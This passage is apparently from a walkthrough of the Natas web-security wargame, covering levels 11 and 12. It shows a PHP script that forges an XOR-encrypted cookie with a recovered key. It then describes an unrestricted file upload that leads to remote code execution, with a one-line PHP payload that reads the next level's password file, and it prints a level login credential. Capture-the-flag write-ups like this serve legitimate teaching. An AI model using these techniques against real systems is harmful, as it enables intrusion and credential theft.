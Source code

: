 [This PHP script](https://repl.it/repls/MediumaquamarineWindingCirriped) reveals the key used in the encryption:<p>

    qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq

So the key is `qw8J` (repeated many times to be as long as the input string). With this, we can finally modify the data ourselves, encrypt it as the server would, and give it to the server as a cookie.

    <?php
    // Copy of the encryption function with the key filled in:
    function xor_encrypt($in) {
        $key = 'qw8J';
        $text = $in;
        $outText = '';
    
        // Iterate through each character
        for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
        }
    
        return $outText;
    }
    // Our modified data:
    $modified = array("showpassword" => "yes", "bgcolor" => "#ffffff");
    // After encoding:
    echo base64_encode(xor_encrypt(json_encode($modified)));

[Running this](https://repl.it/repls/WhirlwindUnevenServal) gives us:

    ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK

We set our `data` cookie to this value and refresh, and the password is revealed.

## Level 12 ##

(Login: `natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3`)

After reading through the sourcecode, we can see we will be uploading a file to the server, up to 1000 bytes in size (more than enough for us).

Of particular interest is the hidden form field called `filename`. It generates a random filename using `genRandomString()` and attaches the extension `.jpg` to it, e.g. `uh2ywqlsb9.jpg`. This filename is then passed to the server-side script, which, for some reason, creates another random string with `genRandomString()`. However, the server-side script keeps the extension passed from the client side intact!

The final thing to note is that web servers generally / by default decide how to serve clients a file based only on its extension. We noticed something similar in level 6. In this level, a file with a `.php` extension will be treated as a PHP script, so it will be executed on the server and its output will be displayed to clients.

So in short, we can perform a remote code execution attack - we create a PHP script, change the extension of the `filename` field to `.php`, and upload our script. Then we navigate to it and execute it. Our script can simply be:

    <?php readfile("/etc/natas_webpass/natas13");
